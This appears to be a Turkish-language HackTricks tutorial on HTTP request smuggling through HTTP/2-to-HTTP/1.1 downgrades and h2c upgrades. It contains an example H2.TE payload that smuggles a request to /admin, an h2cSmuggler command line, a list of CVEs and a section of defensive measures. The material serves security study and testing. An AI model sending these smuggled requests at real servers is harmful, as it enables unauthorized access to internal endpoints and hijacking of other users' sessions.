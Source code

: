 # HTTP/2 Düşürmelerinde İstek Smuggling'i

{{#include ../../banners/hacktricks-training.md}}

HTTP/2 genellikle klasik istek-smuggling'e karşı bağışık olarak kabul edilir çünkü her DATA çerçevesinin uzunluğu açıktır. **Bu koruma, bir ön uç proxy'si isteği HTTP/1.x'e “düşürdüğünde” kaybolur ve bunu arka uca iletir.** İki farklı ayrıştırıcı (HTTP/2 ön ucu ve HTTP/1 arka ucu) bir isteğin nerede bittiği ve diğerinin nerede başladığı konusunda anlaşmaya çalıştığında, tüm eski senkronizasyon bozulma numaraları geri gelir - artı birkaç yeni numara.

---
## Düşürmelerin Nedenleri

1. Tarayıcılar zaten HTTP/2 konuşuyor, ancak birçok eski köken altyapısı hala yalnızca HTTP/1.1'i anlıyor.
2. Bu nedenle, ters proxy'ler (CDN'ler, WAF'lar, yük dengeleyiciler) TLS + HTTP/2'yi kenarda sonlandırır ve **her isteği HTTP/1.1 olarak yeniden yazar**.
3. Çeviri adımı, kökenin gövde uzunluğunu belirleyebilmesi için *her ikisini de* `Content-Length` **veya** `Transfer-Encoding: chunked` başlıklarını oluşturmak zorundadır.

Ön uç HTTP/2 çerçeve uzunluğuna **güvendiğinde** ancak arka uç CL veya TE'ye güvendiğinde, bir saldırgan bunların anlaşmazlık yaşamasını sağlayabilir.

---
## İki Dominant Temel Sınıf

| Varyant | Ön uç uzunluğu | Arka uç uzunluğu | Tipik yük |
|---------|-----------------|-----------------|-----------------|
| **H2.TE** | HTTP/2 çerçevesi | `Transfer-Encoding: chunked` | Son `0\r\n\r\n` gönderilmeyen ekstra bir chunked mesaj gövdesi ekleyin, böylece arka uç saldırgan tarafından sağlanan “sonraki” isteği bekler. |
| **H2.CL** | HTTP/2 çerçevesi | `Content-Length` | Gerçek gövdeden *daha küçük* bir CL gönderin, böylece arka uç sınırın ötesine geçerek sonraki isteği okur. |

> Bunlar, klasik TE.CL / CL.TE ile ruhsal olarak aynıdır, sadece HTTP/2 bir ayrıştırıcıyı değiştirmiştir.

---
## Düşürme Zincirini Tanımlama

1. **ALPN** kullanarak bir TLS el sıkışmasında (`openssl s_client -alpn h2 -connect host:443`) veya **curl**:
```bash
curl -v --http2 https://target
```
Eğer `* Using HTTP2` görünüyorsa, kenar H2 konuşuyor demektir.
2. HTTP/2 üzerinden kasıtlı olarak hatalı bir CL/TE isteği gönderin (Burp Repeater artık HTTP/2'yi zorlamak için bir açılır menüye sahiptir). Eğer yanıt bir HTTP/1.1 hatası olan `400 Bad chunk` ise, kenarın trafiği bir HTTP/1 ayrıştırıcısı için dönüştürdüğüne dair kanıtınız var demektir.

---
## Sömürü İş Akışı (H2.TE örneği)
```http
:method: POST
:path: /login
:scheme: https
:authority: example.com
content-length: 13      # ignored by the edge
transfer-encoding: chunked

5;ext=1\r\nHELLO\r\n
0\r\n\r\nGET /admin HTTP/1.1\r\nHost: internal\r\nX: X
```
1. **Ön uç** tam olarak 13 bayt okur (`HELLO\r\n0\r\n\r\nGE`), isteğin tamamlandığını düşünür ve bu kadarını orijine iletir.
2. **Arka uç** TE başlığına güvenir, *ikinci* `0\r\n\r\n` görünene kadar okumaya devam eder ve böylece saldırganın ikinci isteğinin ön ekini (`GET /admin …`) tüketir.
3. Kalan (`GET /admin …`) kurbanın arkasında bekleyen *yeni* bir istek olarak işlenir.

Kaçırılan isteği şunlarla değiştirin:
* `POST /api/logout` oturum sabitlemeyi zorlamak için
* `GET /users/1234` kurbana özgü bir kaynağı çalmak için

---
## h2c smuggling (düz metin yükseltmeleri)

2023'te yapılan bir çalışma, bir ön ucun HTTP/1.1 `Upgrade: h2c` başlığını düz metin HTTP/2'yi destekleyen bir arka uca iletmesi durumunda, bir saldırganın yalnızca HTTP/1.1'i doğrulayan bir kenar üzerinden *ham* HTTP/2 çerçevelerini tünelleme yapabileceğini göstermiştir. Bu, başlık normalizasyonunu, WAF kurallarını ve hatta TLS sonlandırmasını atlar.

Ana gereksinimler:
* Kenar, **her iki** `Connection: Upgrade` ve `Upgrade: h2c` başlıklarını değiştirmeden iletmelidir.
* Orijin, HTTP/2'ye geçiş yapmalı ve istek kuyruklama yeteneklerini sağlayan bağlantı yeniden kullanım anlamlarını korumalıdır.

Hafifletme basittir – WebSocket'ler hariç, kenarda `Upgrade` başlığını kaldırın veya sabit kodlayın.

---
## Dikkate değer gerçek dünya CVE'leri (2022-2025)

* **CVE-2023-25690** – Apache HTTP Server mod_proxy yeniden yazma kuralları, istek bölme ve kaçırma için zincirlenebilir. (2.4.56'da düzeltildi)
* **CVE-2023-25950** – HTX ayrıştırıcısının hatalı bir şekilde işlediği boru hatlı isteklerde HAProxy 2.7/2.6 istek/yanıt kaçırma.
* **CVE-2022-41721** – Go `MaxBytesHandler`, kalan gövde baytlarının **HTTP/2** çerçeveleri olarak işlenmesine neden olarak protokoller arası kaçırmayı sağladı.

---
## Araçlar

* **Burp Request Smuggler** – v1.26'dan itibaren otomatik olarak H2.TE/H2.CL ve gizli ALPN desteğini test eder. Uzantı seçeneklerinde “HTTP/2 probing”i etkinleştirin.
* **h2cSmuggler** – düz metin yükseltme saldırısını otomatikleştirmek için Bishop Fox tarafından oluşturulan Python PoC:
```bash
python3 h2csmuggler.py -u https://target -x 'GET /admin HTTP/1.1\r\nHost: target\r\n\r\n'
```
* **curl**/`hyper` – manuel yükler oluşturma: `curl --http2-prior-knowledge -X POST --data-binary @payload.raw https://target`.

---
## Savunma önlemleri

1. **Uçtan uca HTTP/2** – düşürme çevirisini tamamen ortadan kaldırın.
2. **Uzunluk gerçeğinin tek kaynağı** – düşürme sırasında, *her zaman* geçerli bir `Content-Length` **ve** **kaldırın** herhangi bir kullanıcı tarafından sağlanan `Content-Length`/`Transfer-Encoding` başlıklarını.
3. **Yol öncesi normalleştirme** – başlık sanitizasyonunu *yol verme/yazma mantığından önce* uygulayın.
4. **Bağlantı izolasyonu** – kullanıcılar arasında arka uç TCP bağlantılarını yeniden kullanmayın; “her bağlantıda bir istek” kuyruk tabanlı istismarları bozar.
5. **WebSocket hariç `Upgrade` başlığını kaldırın** – h2c tünellemesini önler.

---
## Referanslar

* PortSwigger Research – “HTTP/2: The Sequel is Always Worse” <https://portswigger.net/research/http2>
* Bishop Fox – “h2c Smuggling: request smuggling via HTTP/2 clear-text” <https://bishopfox.com/blog/h2c-smuggling-request>

{{#include ../../banners/hacktricks-training.md}}
